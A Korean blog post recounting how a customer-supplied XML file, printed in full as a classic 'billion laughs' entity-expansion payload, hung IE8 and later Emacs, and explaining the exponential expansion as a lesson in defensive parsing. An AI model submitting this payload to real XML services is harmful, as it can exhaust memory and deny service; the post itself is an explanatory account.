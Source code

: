 date: 2011-04-14
tags: 보안
title: 교활한 XML
---
XML 파일이 프로그램을 죽일 수도 있다는 생각은 하지 못했다. XML은 그저 텍스트일 뿐이고 프로그램은 그저 파일을 읽어서 처리할 뿐인데... 그런데 다음과 같은 파일을 보고서야 그럴 수도 있다는 것을 알게 되었다.
<!-- more -->

```xml
<?xml version="1.0"?>
<!DOCTYPE billion [
<!ELEMENT billion (#PCDATA)>
<!ENTITY laugh0 "ha">
<!ENTITY laugh1 "&laugh0;&laugh0;">
<!ENTITY laugh2 "&laugh1;&laugh1;">
<!ENTITY laugh3 "&laugh2;&laugh2;">
<!ENTITY laugh4 "&laugh3;&laugh3;">
<!ENTITY laugh5 "&laugh4;&laugh4;">
<!ENTITY laugh6 "&laugh5;&laugh5;">
<!ENTITY laugh7 "&laugh6;&laugh6;">
<!ENTITY laugh8 "&laugh7;&laugh7;">
<!ENTITY laugh9 "&laugh8;&laugh8;">
<!ENTITY laugh10 "&laugh9;&laugh9;">
<!ENTITY laugh11 "&laugh10;&laugh10;">
<!ENTITY laugh12 "&laugh11;&laugh11;">
<!ENTITY laugh13 "&laugh12;&laugh12;">
<!ENTITY laugh14 "&laugh13;&laugh13;">
<!ENTITY laugh15 "&laugh14;&laugh14;">
<!ENTITY laugh16 "&laugh15;&laugh15;">
<!ENTITY laugh17 "&laugh16;&laugh16;">
<!ENTITY laugh18 "&laugh17;&laugh17;">
<!ENTITY laugh19 "&laugh18;&laugh18;">
<!ENTITY laugh20 "&laugh19;&laugh19;">
<!ENTITY laugh21 "&laugh20;&laugh20;">
<!ENTITY laugh22 "&laugh21;&laugh21;">
<!ENTITY laugh23 "&laugh22;&laugh22;">
<!ENTITY laugh24 "&laugh23;&laugh23;">
<!ENTITY laugh25 "&laugh24;&laugh24;">
<!ENTITY laugh26 "&laugh25;&laugh25;">
<!ENTITY laugh27 "&laugh26;&laugh26;">
<!ENTITY laugh28 "&laugh27;&laugh27;">
<!ENTITY laugh29 "&laugh28;&laugh28;">
<!ENTITY laugh30 "&laugh29;&laugh29;">
]>
<billion>&laugh30;</billion>
```

우리회사 프로그램이 제대로 처리하지 못한다며 고객이 보내준 XML 파일이다. 이 파일을 Chrome이나 Firefox와 같은 브라우저에서 열면 즉각 에러를 표시한다.

{% asset_img chrome.png %}

그러나 IE8에서 열면 브라우저 화면에 아무것도 나타나지 않지만 CPU를 계속 사용하고 메모리도 계속 늘어난다. 메모리 사용량이 거의 1GB가까지 늘어나는 것을 보고 죽여야 했다. IE8도 이 XML 파일을 제대로 처리하지 못하는 것이다.

파일 내용을 보면 `laugh0` ~ `laugh30`까지 31개의 엔터티를 정의하는데 `laugh0`은 "ha"로 정의되어 있고 나머지 엔터티는 이전 엔터티를 두번 참조하는 것으로 정의되어 있다. `laugh1`은 `laugh0`이 두번 나오는 것이고, `laugh2`는 `laugh1`이 두번 나오는 것이다. 이런 식으로 `laugh30`까지 간다. 따라서 엔터티를 모두 확장해보면...

```
laugh0 --> ha
laugh1 --> haha
laugh2 --> hahahaha
laugh3 --> hahahahahahahaha
laugh4 --> hahahahahahahahahahahahahahahaha
laugh5 --> hahahahahahahahahahahahahahahahahahahahahahahahahahahahahahahaha
...
```
`<billion>&laugh30;</billion>`을 표시하려면 "ha"를 2<sup>30</sup>번 표시해야 한다. 2<sup>30</sup>이면 1G에 해당하는 크기다. "ha"를 2바이트라고 하면 이 XML 문서를 표시하기 위해 2GB 길이의 문자열을 표시해야 하는 것이다.

이 교활한 XML 파일을 읽고는 프로그램이 죽어버리거나 제대로 처리하지 못하는 것도 이해할만하지만 잘 작성된 프로그램이라면 그러지 말아야 한다. Chrome이나 Firefox는 이런 문제가 생길 수 있다는 것을 즉각 알아채고 에러 메시지를 표시한다. 잘 작성된 프로그램이다. IE8은 그렇지 못하다.

이 XML 파일을 보고서야 XML 문서로 프로그램을 공격할 수 있다는 걸 알게 되었고, 프로그램을 작성할 때도 이런 공격에 대비를 해야 한다는 것도 알게 되었다.

## 업데이트 (2014-11-12)
* 윈도우7 IE11에서 위 XML 파일을 열어보면 예전의 IE8 처럼 삽질을 하지 않는다. 그저 조용히 맨 아랫줄 `<billion>&laugh30;</billion>`을 제거하고 아무런 에러 메시지도 표시하지 않는다. 브라우저가 멈춰버리지는 않지만 친절한 UX라 할 수는 없다.
* Emacs(24.4.1) 에디터에서 위 XML 파일을 열면 응답하지 않는 상태가 된다. XML 소스를 scratch 버퍼에 붙여넣는 것은 되지만 이를 XML 파일로 저장하려 하면 역시 응답하지 않는 상태가 된다. 프로세스가 CPU를 계속 사용하는 것으로 보아 뭔가 삽질을 하고 있는게 분명하다.
